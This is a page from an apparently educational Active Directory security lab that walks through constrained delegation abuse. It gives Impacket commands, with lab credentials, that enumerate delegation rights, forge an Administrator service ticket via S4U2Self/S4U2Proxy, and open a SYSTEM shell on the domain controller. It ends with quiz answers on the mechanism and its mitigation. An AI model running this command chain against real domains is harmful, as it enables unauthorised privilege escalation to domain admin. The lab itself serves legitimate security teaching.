

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/ConstrainedDelegationAbuse/index.html · generator: mkdocs

#Constrained Delegation Abuse

Misconfigured constrained delegation rights may lead to domain compromise. This abuse doesn't necessarily take advantage of a vulnerability or a bug, but rather from misconfigurations. The attacker simply takes advantage of them.

Upon acquiring valid user credentials, an attacker may look for delegation rights configured in a domain. This way, an attacker can target valuable accounts, such as accounts that are configured for constrained delegations for sensitive services, such as the SMB/CIFS service running on a domain controller.

The attacker can look for configured delegation rights by using Impacket's 'findDelegation.py' script:
```
findDelegation.py NORTH.ALTAIR.LOCAL/skyler.white:Password123 -target-domain north.altair.local
```
The output of this script shows us that Walter is configured for constrained delegation, being able to delegate tickets to the SMB service running on the domain controller! This means that if the attacker can compromise Walter's account, they can impersonate the administrator account and access this service as the administrator! This is possible thanks to the S4U2Self and S4U2Proxy protocol extensions used in Kerberos' constrained delegation.

In the Kerberoasting section of the lab we've targeted Walter's account, and cracked his password using Hashcat (hopefully). If you haven't been able to crack Walter's password, I'll let you in on it: 'Metho1o590oA$elry'.

Since we've compromised Walter's account, we can now take advantage of this misconfiguration where a low-privileged account has delegation rights to a sensitive service:
```
#retrieve a ticket for the CIFS service in the domain controller as the admin through S4U2Self and S4U2Proxy
getST.py -spn 'CIFS/captain.north.altair.local' -impersonate Administrator -dc-ip '192.168.122.10' 'north.altair.local/walter.white:Metho1o590oA$elry'
#set the krb5ccname environment var to the new ccache file
export KRB5CCNAME=/home/ubuntu/Administrator.ccache
#use the ticket to access the domain controller through a shell as the administrator through the SMB protocol
psexec.py  -k -no-pass NORTH.ALTAIR.LOCAL/Administrator@captain.north.altair.local
```

And just like that we can issue commands in the DC as SYSTEM by leveraging a TGS issued on the Administrator behalf! By abusing a misconfigured delegation right, a low-privileged user escalated directly to Domain Admin, without needing to exploit any vulnerability.

!!! question
    What's S4U2Self and S4U2Proxy role in this attack?
??? success "Answer"
    The attacker, using Walter's account, can use the S4U2Self extension in order to request a service ticket to its own service, on behalf of the Administrator. By having a ticket from the Administrator to its own service, Walter can then use the S4U2Proxy extension, which retrieves a service ticket in name of the Administrator (in this case) for the CIFS service in CAPTAIN, and use this ticket, impersonating the Administrator while accessing the CIFS service in CAPTAIN. All of this is possible since Walter is allowed to perform constrained delegation to the CIFS service in CAPTAIN.

!!! question
    How can this attack be mitigated?
??? success "Answer"
    This attack can be mitigated by not configuring constrained delegation permissions from low-privileged accounts to sensitive services. This way, simply by compromising user accounts, an attacker shouldn't be able to access a service as the administrator. Delegation to sensitive services needs to be carefully planned and accounts that can delegate tickets to such services should be very well protected, to prevent these scenarios.
